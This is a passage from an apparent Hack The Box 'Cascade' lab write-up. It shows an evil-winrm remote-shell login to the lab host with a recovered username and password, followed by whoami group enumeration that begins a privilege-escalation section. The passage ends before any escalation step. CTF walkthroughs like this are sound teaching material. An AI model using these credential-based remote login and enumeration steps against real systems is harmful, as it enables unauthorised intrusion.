 * Let's Login with evil-winrm again:

```ruby
xdev05@XDev05:~/Documents/HTB/Cascade/evil-winrm$ ruby evil-winrm.rb -u 'Arksvc' -p 'w3lc0meFr31nd' -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\arksvc\Documents> 

```

# [](#header-1) Privilege Escalation:

* type whoami/all first.
* type whoami/groups.

```ruby
*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

```
